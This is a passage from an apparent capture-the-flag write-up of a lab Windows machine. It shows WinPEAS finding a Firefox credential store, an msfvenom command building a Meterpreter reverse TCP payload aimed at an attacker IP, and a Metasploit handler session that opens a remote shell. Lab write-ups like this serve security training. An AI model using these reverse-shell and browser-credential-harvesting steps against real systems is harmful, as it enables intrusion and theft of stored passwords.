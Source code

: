 ## Going for the root.

After running WinPease and carefully anaylsing the output for a while, I found that firefox has some creds: 

```bash
ÍÍÍÍÍÍÍÍÍÍ¹ Looking for Firefox DBs
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
    Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
È Run SharpWeb (https://github.com/djhohnstein/SharpWeb)

```

Found this [article](https://apr4h.github.io/2019-12-20-Harvesting-Browser-Credentials/) that explains how to exploit firefox passwords. The tool SharpWeb didn't work for me.

However the creds are stored are login.json but they are 3DES CBC mode Encrypted. I downloaded the login.json

I switeched from evil-winrm to meterpreter to download the files because evil-winrm seemed to fail to download them. 

No AV is enabled on target machine so this not going to be an issue. 

```bash
─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.14.108" LPORT=4242 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

MSFCONSOLE

```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.108
LHOST => 10.10.14.108
msf6 exploit(multi/handler) > set LPORT 4242
LPORT => 4242
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.108:4242 
[*] Sending stage (175174 bytes) to 10.10.11.158
[*] Meterpreter session 1 opened (10.10.14.108:4242 -> 10.10.11.158:61762) at 2022-09-14 12:35:55 +0100

meterpreter > ls

...
```
## Decrypting Firefox passwords
